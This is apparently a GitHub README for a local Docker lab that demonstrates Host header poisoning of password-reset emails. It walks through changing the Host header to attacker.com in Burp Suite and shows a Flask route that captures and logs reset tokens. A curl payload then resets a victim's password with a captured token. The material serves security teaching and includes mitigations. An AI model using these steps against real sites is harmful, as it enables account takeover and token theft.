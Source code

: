 # Password Reset Spoof
A demonstration of Host Header Manipulation to exploit password reset functionality and capture reset tokens for unauthorized account access.

### Host Header Attack: Password Reset Exploitation

1. **Attacker Accesses Password Reset Form**:
   The attacker visits the target website (e.g., www.example.com) and enters the victim's email in the password reset form.

2. **Attacker Intercepts the Request**:
   Using a proxy tool (e.g., Burp Suite), the attacker intercepts the outgoing password reset request.

3. **Host Header Manipulation**:
   The attacker modifies the `Host` header from www.example.com to attacker.com.

4. **Server Generates Malicious Link**:
   The target server uses the manipulated `Host` header to generate a password reset link pointing to attacker.com.

5. **Victim Receives Email with Malicious Link**:
   The victim receives a legitimate-looking email containing the malicious link (e.g., https://attacker.com/reset-password?token=abc123).

6. **Victim Clicks the Malicious Link**:
   The victim unknowingly clicks the link, which redirects them to the attacker-controlled website.

7. **Attacker Captures Reset Token**:
   The attacker’s website captures the password reset token (e.g., abc123) from the victim's request.

8. **Attacker Uses the Token**:
   The attacker sends the captured token to the legitimate password reset endpoint on www.example.com and resets the victim's password, gaining control over their account.


# Step-by-Step Guide to Running the Project

This guide explains how to set up and run the project.

## Update Credentials:

![Update Credentials](images/mail_script.png)

Explanation: This step ensures the system uses the specified email credentials for sending reset emails as part of the scenario demonstration.


### Step 1: Start Docker Compose
Run the following command to start all services:
```bash
docker-compose up --build
```

### Step 2: Open Localhost Ports
Access the services running on your local machine through the following ports:

1. **Backend**: Open your browser and navigate to: http://localhost:5000
2. **Frontend**: Open your browser and navigate to: http://localhost:4567


### Step 3: Enter Victim's Email for Password Reset
In this step, the attacker enters the victim's email address into the password reset form on the legitimate website to initiate the password reset process.

Example Screenshot:
![Enter Victim Email](images/victim_email.png)

Explanation: This step triggers the password reset process, and the server will send a reset link to the victim’s email address.

### Step: Capturing and Modifying the Request in Burp Suite

1. **Capture the Original Request**:
   Using **Burp Suite**, intercept the outgoing password reset request after entering the victim's email. The original `Host` header points to the legitimate domain (e.g., `www.example.com`).

   **Original Request Screenshot**:
   ![Original Request](images/original_request.png)

2. **Modify the `Host` Header**:
   In **Burp Suite**, modify the `Host` header to point to the attacker's domain (e.g., `attacker.com`). This change ensures that the server generates the reset link using the malicious domain.

   **Modified Request Screenshot**:
   ![Modified Request](images/modify_header.png)

### Step 4: Victim Receives Email and Clicks Malicious Link

In this step, the victim receives an email containing a password reset link generated by the manipulated `Host` header. The link appears legitimate but redirects to the attacker's website.

Example Screenshot:
![Victim Receives Email](images/password_reset_email.png)

Explanation: The victim, unaware of the attack, clicks the link (e.g., `https://attacker.com/reset-password?token=abc123`). This action redirects them to the attacker's web server, which captures the reset token from the request.


### Step 5: Attacker Captures the Token in Attacker Server

When the victim clicks the malicious reset link, they are redirected to the attacker's server. The attacker’s server (`attacker_server/main.py`) captures the reset token from the URL.

Code in `attacker_server/main.py`:
```python
@app.route('/reset-password', methods=['GET'])
def capture_token():
    token = request.args.get('token')
    if token:
        print(f"Captured Token: {token}")
        with open("captured_tokens.txt", "a") as f:
            f.write(f"Captured Token: {token}\n")
        return jsonify({"success": True, "message": "Token captured successfully"}), 200
    else:
        return jsonify({"success": False, "message": "No token found in the request"}), 400
```

### Step 6: Attacker Sends the Payload to Server Endpoint

Using the captured reset token, the attacker crafts a malicious payload and sends it to the legitimate server’s password reset confirmation endpoint (`/confirm-password`). This resets the victim's password to one chosen by the attacker.

Example Payload:
```bash
curl -X POST http://127.0.0.1:5000/confirm-password \
-H "Content-Type: application/json" \
-d '{"token": "G34v0QYdJXZVopfDlmjt7V1gXYIfTCmaZhRRrmP7xDo", "new_password": "easypeasy"}'
```
![Victim Password Reset](images/victim_password_reset.png)


### Step 7: Attacker Logs in Using Victim's Email and New Password
After successfully resetting the victim's password, the attacker can now log in to the victim's account using the email and the new password they set.


# Conclusion
This demonstration highlights the risks associated with insecure password reset implementations and the exploitation of trust in the `Host` header. By manipulating the reset process, attackers can capture sensitive tokens, gain unauthorized access to user accounts, and compromise the security of the system. Implementing proper validations, such as whitelisting `Host` headers, securing reset tokens, and employing multi-factor authentication, can help mitigate these attacks.

# Project Explanation and Objective

This project demonstrates the concept of **Host Header Manipulation** in a controlled environment for learning and testing purposes. Here's what I set up:

### Setup Overview:
1. **Backend**: 
   - Represents the legitimate server backend.
   - Handles password reset functionality, including generating reset tokens and validating them.

2. **Frontend**:
   - Serves as the legitimate frontend for the target website.
   - Includes pages like login, reset password, etc.

3. **Attacker Server**:
   - A malicious server controlled by the attacker.
   - Captures reset tokens when the victim interacts with a malicious link.

---

### Purpose:
- **Concept Clarity**:
  - This setup is designed to understand and demonstrate how Host Header Manipulation works in practice.
  - It assumes that each container represents a different domain (based on ports).
- **Testing Locally**:
  - By running all containers locally on different ports, I simulate real-world interactions without requiring a live environment or domain names.
- **Learning**:
  - The primary goal is to learn and test the security vulnerabilities associated with improper Host Header validation in web applications.

---

### Important Note:
This setup is solely for educational purposes and testing in a controlled environment. It should not be used for malicious activities or to exploit vulnerabilities in real-world systems. Always follow ethical guidelines when working on cybersecurity-related projects.
